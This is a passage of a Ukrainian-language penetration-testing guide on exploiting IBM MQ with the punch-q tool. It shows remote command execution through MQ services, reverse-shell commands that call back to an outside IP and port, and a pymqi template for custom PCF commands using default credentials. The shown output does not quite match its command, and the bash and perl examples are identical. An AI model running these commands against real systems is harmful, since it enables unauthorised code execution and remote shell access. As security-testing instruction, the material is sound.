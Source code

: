 Ви також можете перерахувати існуючі програми на машині (тут `/bin/doesnotexist` ... не існує):
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/doesnotexist" --arg
s "whatever"
Command: /bin/doesnotexist
Arguments: -c id
Service Name: 6e3ef5af652b4436

Creating service...
Starting service...
The program '/bin/doesnotexist' is not available on the remote system.
Giving the service 0 second(s) to live...
Cleaning up service...
Done
```
**Зверніть увагу, що запуск програми є асинхронним. Тому вам потрібен другий елемент для використання експлойту** **_(слухач для зворотного шеллу, створення файлу на різному сервісі, ексфільтрація даних через мережу ...)_**

**Приклад 2**

Для простого зворотного шеллу, **punch-q** також пропонує два корисних навантаження для зворотного шеллу:

- Одне з bash
- Одне з perl

_Звичайно, ви можете створити власне з використанням команди `execute`._

Для bash:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```
Для perl:
```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```
### Custom PCF

Ви можете ознайомитися з документацією IBM MQ і безпосередньо використовувати бібліотеку **pymqi** для тестування конкретної команди PCF, яка не реалізована в **punch-q**.

**Example:**
```python
import pymqi

queue_manager = 'MYQUEUEMGR'
channel = 'DEV.ADMIN.SVRCONN'
host = '172.17.0.2'
port = '1414'
conn_info = '%s(%s)' % (host, port)
user = 'admin'
password = 'passw0rd'

qmgr = pymqi.connect(queue_manager, channel, conn_info, user, password)
pcf = pymqi.PCFExecute(qmgr)

try:
# Replace here with your custom PCF args and command
# The constants can be found in pymqi/code/pymqi/CMQCFC.py
args = {pymqi.CMQCFC.xxxxx: "value"}
response = pcf.MQCMD_CUSTOM_COMMAND(args)
except pymqi.MQMIError as e:
print("Error")
```